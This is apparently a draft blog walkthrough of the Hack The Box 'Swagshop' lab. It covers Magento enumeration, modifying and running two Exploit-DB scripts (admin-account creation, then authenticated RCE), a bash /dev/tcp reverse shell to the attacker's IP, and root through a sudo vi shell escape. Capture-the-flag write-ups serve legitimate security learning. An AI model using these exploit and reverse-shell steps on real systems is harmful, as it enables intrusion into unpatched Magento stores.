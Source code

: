```yaml
---
author: bhero
topic: htb
frontPage: False
---
```

DRAFT: Walkthrough for Swagshop : 10.10.10.140 

> DRAFT VERSION
> TODO, add gobusters and explanations

## Enumeration

 
``` bash
SWAGSHOP=10.10.10.140
ATTACK=10.10.14.37
```
 

``` bash
sudo nmap $SWAGSHOP -Pn
```

```
Nmap scan report for 10.10.10.140
Host is up (0.031s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

I visit the website in Firefox to see Magento:

![magento.png](/assets/htb_stuff/swagshop/magento.png)



> TODO gobuster the admin panel

## Triage


Check the source code to see it is 2014.

chech searsploit

``` bash
searchsploit magento
```

There are a few, I look through them:

```
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username'] | exploits/php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php | exploits/php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                    | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File               | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                 | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple Vulnerabilities                       | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                  | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclosure                                    | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                    | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                 | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial  | exploits/php/webapps/38651.txt
----------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```


Exploit 37811.py has RCE but needa authentication to work, which I don't have. On further reading I notice 37977.py creates admin accounts.

This looks promisining as I uses injection to create a ner admin user as it does not require authentication then chain it to get a shell.

``` bash
searchsploit -x 37977
```


## Exploit

I copy it to my working directory 

``` bash
searchsploit -m 37977
```

and edit the code as to remove all the non python code and define a target url:

```
target = "http://10.10.10.140/index.php" #line 31
```

I run with:

``` bash
python 37977.py 
```


This appears to work

```
WORKED
Check http://10.10.10.140/index.php/admin with creds forme:forme
```

so I try to login:


![login.png](/assets/htb_stuff/swagshop/login.png)


But this fails, hmmm what did I do wrong?

> TODO gobuster analysis


I go to the admin panel at http://10.10.10.140/index.php/admin and try:

![admin.png](/assets/htb_stuff/swagshop/admin.png)

it works!

![accesss.png](/assets/htb_stuff/swagshop/accesss.png)


Now that I have the frome:forem access credentials I look at the the other exploit. I start by copying it to my working directory:

``` bash
searchsploit -m 37811
```

I edit the source code to add the username and password vaues:

``` python
username = 'forme' #line 32
password = 'forme' #line 33
```

form http://10.10.10.140/app/etc/local.xml I get the install date:

``` xml
<![CDATA[ Wed, 08 May 2019 07:23:09 +0000 ]]>
```

So I change line 35 to:

``` python
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
```

when I execute with:

``` bash
python 37811.py http://$SWAGSHOP/index.php/admin/ "uaname -a"
```

I get back an error:

```
Traceback (most recent call last):
  File "37811.py", line 69, in 
    tunnel = tunnel.group(1)
AttributeError: 'NoneType' object has no attribute 'group'
```

> So it appeared that the request URL just before line 69 was not entirely correct as it resulted in an empty group. Interestingly, this line contained an Ajax request with the statement of a certain period. After trying this request with several possible options in a python console, it resulted that the option of a period of 1 year was the right setting.



I change the tab orders period to 1 yr:

``` python
request = br.open(url + 'block/tab_orders/period/1y/?isAjax=true', data='isAjax=false&form_key=' + key) #line 69
```

and run:

```
python 37811.py http://$SWAGSHOP/index.php/admin/ "uname -a"
```

This time I get no errors, suggesting blind command execution I try a shell:

``` bash
python 37811.py http://$SWAGSHOP/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.37/1337 0>&1'"
```

And get RCE:

```
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.140] 60276
bash: cannot set terminal process group (1291): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$ 
```


## Priv Escalation

I background the shell with Ctl^Z then in the original terminal forward the settings and restart the backround reverse shell with the following commands:

``` bash
stty raw -echo
fg
```

This forwards my terminal special keys, next I run

``` bash
sudo -l
```

to see my user can run `sudo /usr/bin/vi /var/www/html/*` with no password requirements:

```
Matching Defaults entries for www-data on swagshop:
                                                                         env_reset, mail_badpass,
                                                                                                     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

                                                                       User www-data may run the following commands on swagshop:
              (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This is great as I can call potentially call a priveleged shell in vi:

``` bash
sudo /usr/bin/vi /var/www/html/pwnd
```

``` vi
:! /bin/sh
```

> t this point my shell broke, I had to revert. second time I didn't botehr with the TTY forwarding

And I'm root! W00t!W00t!

```
id
uid=0(root) gid=0(root) groups=0(root)
```


## Bonus

TODO Debugging the RCE script and gobuster